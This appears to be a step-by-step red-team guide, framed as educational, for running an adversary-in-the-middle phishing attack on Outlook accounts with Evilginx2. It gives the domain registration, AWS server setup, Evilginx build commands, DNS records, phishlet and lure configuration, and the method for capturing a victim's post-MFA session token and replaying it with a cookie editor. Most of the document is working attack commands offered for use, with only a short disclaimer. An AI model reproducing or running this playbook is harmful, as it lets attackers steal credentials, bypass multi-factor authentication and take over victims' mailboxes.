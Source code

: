 
**Author**: Bahtiyar Yusuf  
**Date**: Jan 27, 2024  
**Purpose**: Demonstrate Adversary-in-the-Middle (AiTM) phishing attack using Evilginx2  
**Use Case**: Red team & educational use **only**
https://medium.com/@bahtiyar16/aitm-attack-poc-1289a0f06766
---
## 1. Register a Domain Name

Use any domain registrar to purchase a domain (preferably a cheap TLD):

- [Truehost](https://truehost.com/cloud/)    
- [GoDaddy](https://www.godaddy.com/)
- [IONOS](https://www.ionos.com/)
    

---

## 2. Launch EC2 Ubuntu Server on AWS

1. Sign up for a [Free AWS Account](https://portal.aws.amazon.com/billing/signup#/start/email)
    
2. Go to AWS Console → Search for `EC2`
    
3. Click `Launch Instance`
    
    - Name: `evilginx-lab`
        
    - OS: `Ubuntu 22.04`
        
    - Key Pair: Create new → RSA → `.pem` format
        
4. Configure security group:
    
    - Allow **SSH (22)**, **HTTP (80)**, **HTTPS (443)**, **DNS (53)**
        
5. Launch the instance and note the **Public IP address**
    

---

## 3. Connect to EC2 via SSH

```bash
chmod 400 evilginx.pem
ssh -i "evilginx.pem" ubuntu@<EC2_PUBLIC_IP>
```

---

## 4. Install Evilginx2 on Ubuntu

### Become root

```bash
sudo su -
apt update && apt upgrade -y
```

### Install dependencies

```bash
apt install curl git make -y
```

### Install Golang

```bash
curl -O https://dl.google.com/go/go1.12.7.linux-amd64.tar.gz
tar xvf go1.12.7.linux-amd64.tar.gz
chown -R root:root go
mv go /usr/local
```

### Set Go environment

```bash
echo "export GOPATH=$HOME/work" >> ~/.profile
echo "export PATH=\$PATH:/usr/local/go/bin:\$GOPATH/bin" >> ~/.profile
source ~/.profile
go version
```

---

## 5. Build and Run Evilginx

```bash
git clone https://github.com/BakkerJan/evilginx2.git
cd evilginx2/
make
make install
```

If you see port 53 error:

```bash
systemctl disable systemd-resolved
systemctl stop systemd-resolved
rm /etc/resolv.conf
echo "nameserver 8.8.8.8" > /etc/resolv.conf
```

Then start Evilginx:

```bash
sudo evilginx
```

---

## 6. Evilginx Configuration

```bash
config domain yourdomain.com
config ip <EC2_PUBLIC_IP>
config redirect_url https://outlook.com
```

Set DNS A records in your registrar for:

- `account.yourdomain.com`
    
- `login.yourdomain.com`
    
- `outlook.yourdomain.com`
    

Point all A records to your EC2 public IP.

---

## 7. Setup and Use Outlook Phishlet

```bash
phishlets hostname outlook yourdomain.com
phishlets enable outlook
lures create outlook
lures edit 0 path mail
```

> Phishing URL: `https://outlook.yourdomain.com/mail`

---

## 8. Capture and Replay Session

1. Victim logs in → MFA prompt → Token captured
    
2. Use command:
    

```bash
sessions
sessions <id>
```

3. Copy token
    
4. Use **Cookie-Editor** browser extension
    
    - Clear cookies
        
    - Import token
        
    - Navigate to `https://outlook.live.com/owa`
        

Boom 💥 — attacker is logged in as victim!

---

## 🔐 Legal Disclaimer

This guide is for **educational and authorized penetration testing purposes only**. Unauthorized access to systems is **illegal** and unethical.

---

## 📎 Reference

- Evilginx2 GitHub: [https://github.com/BakkerJan/evilginx2](https://github.com/BakkerJan/evilginx2)
    
- Bahtiyar Yusuf on [LinkedIn](https://www.linkedin.com/in/bahtiyar-yusuf/)